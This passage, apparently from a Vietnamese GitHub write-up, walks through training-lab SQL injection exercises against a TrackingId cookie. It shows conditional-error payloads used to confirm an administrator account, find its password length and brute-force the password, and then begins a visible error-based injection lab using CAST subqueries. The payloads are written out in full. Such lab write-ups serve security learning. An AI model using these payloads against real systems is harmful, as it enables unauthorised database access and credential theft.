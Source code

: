 5) Kiểm tra user administrator có tồn tại:
```
    TrackingId=oZZ3vis3DjVR0yex'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
<img width="1493" height="539" alt="image" src="https://github.com/user-attachments/assets/0c9a8a34-9a54-4f92-84c1-df79c2dbde8a" />
→ Có lỗi → user administrator tồn tại.

6) Xác định độ dài mật khẩu của administrator:
```
    TrackingId=oZZ3vis3DjVR0yex'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
<img width="1489" height="569" alt="image" src="https://github.com/user-attachments/assets/c5332216-5f0b-44a9-a488-0bfef1253328" />
> Gặp lỗi => mật khẩu dài hơn 1 kí tự
- Tương tự thử đến khi nào hết lỗi thì dừng, và khi tăng tới số 20 thì không còn lỗi
<img width="1481" height="653" alt="image" src="https://github.com/user-attachments/assets/0c49ed81-7dc6-4c59-b35c-59010d777f33" />
> Mật khẩu có 20 kí tự

7) Brute force mật khẩu bằng Intruder

<img width="1915" height="801" alt="image" src="https://github.com/user-attachments/assets/41e638f8-cefc-49fc-b684-016734a88c5f" />
<img width="1559" height="702" alt="image" src="https://github.com/user-attachments/assets/2cf6e89c-d1f3-46ee-82b4-8b7543838042" />
> Mật khẩu có được 7i7wvokhsq56b4q7m0re

<img width="1860" height="720" alt="image" src="https://github.com/user-attachments/assets/2a9f0e32-94b7-4986-82e9-5088a97ae9bb" />
> Đăng nhập thành công

- **Trích xuất dữ liệu nhạy cảm qua lỗi chi tiết**
  ```
  ERROR: invalid input syntax for type integer: "Example data"
  ```
**Lab: Visible error-based SQL injection**
1) Trong Repeater, thêm một dấu nháy đơn ' vào giá trị cookie TrackingId rồi gửi request:
<img width="1492" height="680" alt="image" src="https://github.com/user-attachments/assets/6bd56945-9c4c-459c-99b0-187d5ca1bf26" />
> Trong response, chú ý thông báo lỗi chi tiết. Nó tiết lộ toàn bộ câu lệnh SQL, bao gồm cả giá trị cookie.

2) Thêm dấu comment vào giá trị trên thì không còn hiện lỗi
<img width="1479" height="758" alt="image" src="https://github.com/user-attachments/assets/8a26d8f9-9f59-41c3-a1f2-598040cd05e0" />

3) chạy một subquery SELECT và ép kiểu kết quả về int:
```
    TrackingId=vKj3VnZ6ctQznt4S' AND CAST((SELECT 1) AS int)--
```
<img width="1485" height="607" alt="image" src="https://github.com/user-attachments/assets/b12dea8d-5cc8-4bdd-b9d4-a137c59c33d8" />

thấy lỗi khác: AND condition must be a boolean expression (điều kiện trong AND phải là biểu thức Boolean).
> Dữ liệu bạn chèn vào đang được xử lý trong một câu lệnh SQL thật sự.
